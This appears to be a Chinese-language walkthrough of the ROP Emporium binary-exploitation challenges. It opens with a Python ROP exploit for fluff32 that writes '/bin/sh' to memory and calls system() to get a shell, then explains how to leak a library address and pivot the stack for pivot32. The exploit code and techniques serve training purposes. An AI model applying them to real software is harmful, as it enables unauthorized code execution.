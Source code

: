 ```python
    payload += l32(mov_ecx_edx)
    payload += "BBBB"
    payload += l32(0)

    return payload

payload  = ""
payload += "A"*44

payload += write_data("/bin", data_addr)
payload += write_data("/sh\x00", data_addr + 4)

payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./fluff32')
io.writeline(payload)
io.interact()
```

#### fluff
提示：在使用 ropgadget 搜索时加上参数 `--depth` 可以得到更大长度的 gadgets。

#### pivot32
这是挑战的最后一题，难度突然增加。首先是动态库，动态库中函数的相对位置是固定的，所以如果我们知道其中一个函数的地址，就可以通过相对位置关系得到其他任意函数的地址。在开启 ASLR 的情况下，动态库加载到内存中的地址是变化的，但并不影响库中函数的相对位置，所以我们要想办法先泄露出某个函数的地址，从而得到目标函数地址。

通过分析我们知道该程序从动态库 `libpivot32.so` 中导入了函数 `foothold_function()`，但在程序逻辑中并没有调用，而在 `libpivot32.so` 中还有我们需要的函数 `ret2win()`。

现在我们知道了可以泄露的函数 `foothold_function()`，那么怎么泄露呢。前面我们已经简单介绍了延时绑定技术，当我们在调用如 `func@plt()` 的时候，系统才会将真正的 `func()` 函数地址写入到 GOT 表的 `func.got.plt` 中，然后 `func@plt()` 根据 `func.got.plt` 跳转到真正的 `func()` 函数上去。

最后是该挑战最重要的部分，程序运行我们有两次输入，第一次输入被放在一个由 `malloc()` 函数分配的堆上，当然为了降低难度，程序特地将该地址打印了出来，第二次的输入则被放在一个大小限制为 13 字节的栈上，这个空间不足以让我们执行很多东西，所以需要运用 stack pivot，即通过覆盖调用者的 ebp，将栈帧转移到另一个地方，同时控制 eip，即可改变程序的执行流，通常的 payload（这里称为副payload） 结构如下：
```
buffer padding | fake ebp | leave;ret addr |
```
这样函数的返回地址就被覆盖为 leave;ret 指令的地址，这样程序在执行完其原本的 leave;ret 后，又执行了一次 leave;ret。

另外 fake ebp 指向我们另一段 payload（这里称为主payload） 的 ebp，即 主payload 地址减 4 的地方，当然你也可以在构造 主payload 时在前面加 4 个字节的 padding 作为 ebp：
```
ebp | payload
```

我们知道一个函数的入口点通常是：
```
push ebp
mov  ebp,esp
```
leave 指令相当于：
```
mov esp,ebp
pop ebp
```
ret 指令为相当于：
```
pop eip
```
